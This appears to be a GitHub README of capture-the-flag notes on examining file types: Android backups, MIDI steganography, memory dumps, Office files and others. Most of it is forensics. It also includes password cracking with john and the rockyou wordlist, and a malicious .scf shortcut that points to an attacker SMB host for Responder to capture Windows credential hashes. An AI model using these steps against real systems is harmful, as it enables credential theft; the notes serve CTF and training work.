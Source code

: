 # Files_unknown
Guides for different file types

try this first:

strings <filename> | grep "password="

strings <filename> | grep PWD




1) .ab = android backup
   1.dd if=<filename>.ab bs=24 skip=1 | zlib-flate -uncompress > <filename>.tar
   
   2. tar -xvf <filename>.tar
  
   4. Then you will get an /app and an /shared folder.
      
   6. there you fill find what you searching for
      
   8. TIP: to find in all the folders if there is something--> ls -a *
---------------------------------------------------------------------------------------------------------------------------
2) .sal = Signal Acquisition Log file???
   
   1) unzip <filename>.sal   ---> (gives two files: x.bin  with binary ifno and y.json with metadata)
      
   3) strings x.bin 
      a) you might find the <SALEAE> tag at the begin. then yu go to there website and download there debug tool. With          that you analyze the binaries and take the message 
---------------------------------------------------------------------------------------------------------------------------
3) .bin =binary
   
   1) strings <filename>.bin
----------------------------------------------------------------------------------------------------------------------------

4) .eml
   
   1) strings
----------------------------------------------------------------------------------------------------------------------  
5) .mid
   
   1) First, we'll check the file with hidden messages in 'Program Change': https://github.com/maxcruz/stegano_midi
      if gives base64, then decrypt it
      
   3) try it in the audacity app
      
   if those are normal try this script  for DAW:
   
import mido

from collections import Counter


midi_filename = "final_version_v199237.mid"

mid = mido.MidiFile(midi_filename)

notes = []

for track in mid.tracks:

    for msg in track:
        if msg.type == 'note_on' and msg.velocity > 0:
            notes.append((msg.note, msg.velocity))

velocity_counts = Counter(velocity for _, velocity in notes)


if velocity_counts:

    most_common_velocity, count = velocity_counts.most_common(1)[0]
    print(f"Most common velocity: {most_common_velocity} ({count} times)")

filtered_velocity = [];

for note, velocity in notes:

    if velocity != most_common_velocity:
        filtered_velocity.append(velocity)
print("Filtered velocities:")

print(filtered_velocity)


and then :

flag = ''.join(chr(code) for code in filtered_velocity)

print("Flag:")

print(flag)
------------------------------------------------------------------------------------------------------------------------------
6) mp4 files/videos

Tools like https://y2down.cc/ can help downloading the MP4 file containing the video.
then use ffmpeg

$fmpeg -i teaser.mp4 -vf "fps=1" frames/out%04d.png

Well, the number of frames is huge. Over 1600 pictures. Too much to look at, but we can use another tool - OCR named tesseract

$ for file in frames/*.png; do tesseract "$file" stdout >> results.txt; done

It takes a moment, but after a while we got results.txt file we can check. It contains a bunch of crap, but using grep we can get our flag:

$ cat results.txt | grep 1753c{
------------------------------------------------------------------------------------------------------------------------------

7) .kdbx
   
   you need keepass to find the code.
   
   sudo apt install keepassxc
   
   git clone keepass4brute.sh
   
   and run it with rockyou.txt

---------------------------------------------------------------------------------------------------------------------------
8) .doc

You need oletools:

pip install -U oletools --break-system-packages

then: 

a. oleid filename.doc

b. 
---------------------------------------------------------------------------------------------------------------------------
9) .elf
    
   1.   vol -f name.elf windows.pslist            (gives running processes on the machine, search for weird names.exe and keep there PID)
  
   2.   vol -f name.elf windows.netscan            (gives connections at the time of dump taken, try to find the samw weird .exes running)
  
   3.   vol -f name.elf windows.cmdline            (get commands that were used to run those processes)

  or

   4.   vol -f name.elf windows.cmdline --pid 1234
    
----------------------------------------------------------------------------------------------------------------------------
10) .xlsx

    office2john file.xlsx >> hash.txt

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

    then create env to use msoffcrypto:
    1. python3 -m venv venv
    2. source venv/bin/activate
    3. pip install msoffcrypto-tool
    4. python3 -m msoffcrypto -p password file.xlsx newname.xlsx
    5. open newname.xlsx
-------------------------------------------------------------------------------------------------------------------------------
11) .scf

Well when someone browses to a directory and a .scf is in it, it automatically reads it. It has been originally designed for Windows 95/98 for shortcut purposes.

sudo responder -w -I tun0

and create a file x.scf:

[Shell]

Command=2

IconFile=\\10.10.XX.XX\tools\nc.ico

[Taskbar]

Command=ToggleDesktop
.....................................................................................................

12) .vbs

    Visual Basic Scripting Edition, commonly referred to as VBScript, is a lightweight scripting language first introduced by Microsoft in 1996. The language has been available as a system component in Windows OS and has been widely used for automating tasks and controlling applications on Windows-based systems



